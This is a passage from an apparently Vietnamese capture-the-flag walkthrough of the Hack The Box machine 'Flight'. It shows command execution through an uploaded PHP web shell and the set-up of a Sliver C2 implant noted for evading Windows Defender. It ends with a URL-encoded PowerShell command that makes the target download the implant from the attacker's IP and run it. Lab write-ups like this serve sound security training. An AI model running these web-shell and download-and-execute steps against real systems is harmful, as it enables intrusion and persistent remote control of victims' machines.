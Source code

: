![alt text](image-20.png)

```
Lưu ý: Các shell được xóa định kỳ khỏi máy chủ web, vì vậy nếu gặp lỗi `Not Found`, upload lại file shell.
```

Bây giờ, có thể sử dụng `curl` để thực thi mã.

```
curl 'http://flight.htb/shell.php?c=whoami'
```

![alt text](image-21.png)

Có code execution, nhưng muốn một shell ổn định hơn. Sử dụng sliver (https://github.com/BishopFox/sliver) C2 framework. Sliver là một lựa chọn tốt vì theo mặc định, nó obfuscate các implant được tạo ra. Vì vậy, trong trường hợp Windows Defender được cài đặt, có thể thực thi nó mà không bị phát hiện. Để cài đặt sliver, tất cả những gì phải làm là chạy lệnh sau.

```
curl https://sliver.sh/install|sudo bash

silver
```

```
Lưu ý: Máy chủ sliver được cài đặt như một dịch vụ trên lacal machine. Nếu khởi động lại machine và không thể kết nối với sliver, đảm bảo khởi động dịch vụ server service sliver start trước khi thực hiện sliver.
```

Khi đã vào bên trong `sliver` framework, phải tạo một implant và khởi động listerner cho impant đó.

```
generate -os windows --arch 64bit --mtls 10.10.14.67 --reconnect 60 --save htb.exe

mtls
```

![alt text](image-22.png)

Sau đó, thiết lập một server Python để host implant.

```
sudo python3 -m http.server 80
```

Cuối cùng, sử dụng web shell để download implant và thực thi nó.

```
curl 'http://flight.htb/shell.php?c=powershell%20-c%20%22wget%2010.10.14.67%2Fhtb.exe%20-usebasicparsing%20-outfile%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe%3B%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe'
```

```
Lưu ý: Payload ở trên là phiên bản được mã hóa URL của powershell -c "wget ​​10.10.14.67/htb.exe -usebasiparsing -outfile C:\users\public\music\htb.exe; C:\users\public\music\htb.exe
```
